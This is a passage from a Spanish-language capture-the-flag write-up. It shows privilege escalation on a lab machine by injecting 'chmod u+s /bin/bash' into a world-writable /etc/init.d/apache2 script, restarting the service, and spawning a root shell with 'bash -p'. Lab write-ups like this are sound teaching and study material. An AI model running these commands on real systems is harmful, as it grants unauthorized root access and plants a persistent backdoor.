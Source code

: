 Tenemos estos archivos:
```bash
/etc/init.d/apache2
/etc/apache2
/etc/apache2/apache2.conf
```

Ahora intentaremos inyectar una instruccion maliciosa que sera ejecutada por el usuario **root** el cual nos permitira ganar acceso como este usuario:
Si nos dirigimos a la ruta de esta archivo:
```bash
/etc/init.d
```

Este archivo vemos que tiene capacidad de escritura: 
```bash
-rwxrwxrwx  1 root root 8141 Aug 23  2024 apache2
```

Nos aprovecharemos de esto para aqui en este archivo inyectar codigo malicioso:
```bash
chmod u+s /bin/bash
```

Una ves inyectada esta linea procedemos a reiniciar el servico para que sea ejecutada nuestra instruccion:
```bash
sudo -u root /usr/sbin/service apache2 restart
```

Hemos logrado asignar persmisos **SUID** a la **bash** de **root**
```bash
ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash
```

Ahora explotamos el privilegio:
```bash
# Comando para escalar al usuario: ( root )
 bash -p
```

---

## Evidencia de Compromiso
Flags **root**
```bash
ls -la /root
-rw-r--r--  1 root root   33 Aug 23  2024 root.txt
```

```bash
# Captura de pantalla o output final
bash-5.2# whoami
root
```